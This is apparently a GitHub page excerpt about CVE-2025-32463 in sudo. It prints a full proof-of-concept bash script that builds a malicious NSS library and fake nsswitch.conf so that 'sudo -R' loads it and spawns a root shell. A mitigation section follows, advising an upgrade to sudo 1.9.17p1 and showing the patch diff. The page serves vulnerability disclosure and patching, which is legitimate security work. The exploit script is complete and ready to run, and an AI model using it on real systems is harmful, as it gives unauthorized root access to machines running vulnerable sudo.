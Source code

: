 **`sudo-chwoot.sh`**

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

---

## 🛡️ Mitigation

There's only one advised mitigation that patches against the vulnerability quickly: **install sudo 1.9.17p1 or later, which is unaffected by the vulnerability**.

This patch reverts to the changes implemented in **sudo 1.9.14**. It removes the `pivot_root()` and `unpivot_root()` functions and ensures `chroot()` is no longer called during the command matching phase, preventing the malicious library from loading.

```C
--- sudo-1.9.17/plugins/sudoers/sudoers.c       2025-06-12 12:12:38.000000000 -0500
+++ sudo/plugins/sudoers/sudoers.c      2025-06-10 11:27:57.493871502 -0500
@@ -1080,7 +1080,6 @@
 int
 set_cmnd_path(struct sudoers_context *ctx, const char *runchroot)
 {
-    struct sudoers_pivot pivot_state = SUDOERS_PIVOT_INITIALIZER;
     const char *cmnd_in;
     char *cmnd_out = NULL;
     char *path = ctx->user.path;
@@ -1099,13 +1098,7 @@
     if (def_secure_path && !user_is_exempt(ctx))
        path = def_secure_path;

-    /* Pivot root. */
-    if (runchroot != NULL) {
-       if (!pivot_root(runchroot, &pivot_state))
-           goto error;
-    }
-
-    ret = resolve_cmnd(ctx, cmnd_in, &cmnd_out, path);
+    ret = resolve_cmnd(ctx, cmnd_in, &cmnd_out, path, runchroot);
```